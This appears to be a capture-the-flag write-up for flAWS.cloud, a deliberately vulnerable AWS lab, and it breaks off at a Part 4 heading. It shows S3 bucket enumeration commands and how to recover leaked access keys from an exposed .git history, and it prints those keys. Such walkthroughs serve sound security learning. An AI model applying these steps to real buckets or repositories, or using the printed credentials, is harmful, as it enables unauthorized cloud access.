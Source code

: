 # flAWS.cloud - A vulnerable AWS cloud environment

### TL;DR

### Part 1 - First interaction with AWS CLI and S3 buckets

--- to be removed
if we ping `flaws.cloud` -> we get `s3-website-us-west-2.amazonaws.com` meaning we have to deal with an S3 bucket-> we can run `aws s3 ls s3://flaws.cloud --no-sign-request --region us-west-2` -> leaks `secret-dd02c7c.html` which leaks the second domain `http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`

### Part 2 - Free for all 

--- to be removed
We have to create an AWS account -> Get Access and secret key -> create a profile with `aws configure` -> use the command `aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/ --profile default --region us-west-2` -> leaks `secret-e4443fc.html` -> leaking `http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud`

### Part 3 - Wait? What key?

--- to be removed
If we least the level3 bucket with `aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --profile default --region us-west-2` -> we get a `.git` folder -> using git-dumper -> git log -> there is a commit called `Oops, accidentally added something I shouldn't have` -> so we checkout to the previous commit with `git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61` -> with the access keys we can create a new profile in `~/.aws/credentials` -> we querry to see all domains with `aws s3 --profile flaws ls` -> we now have all levels leaked.
```
[flaws]
aws_access_key_id = AKIAJ366LIPB4IJKT7SA
aws_secret_access_key = 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
```
 
### Part 4 - Now we have a VM!
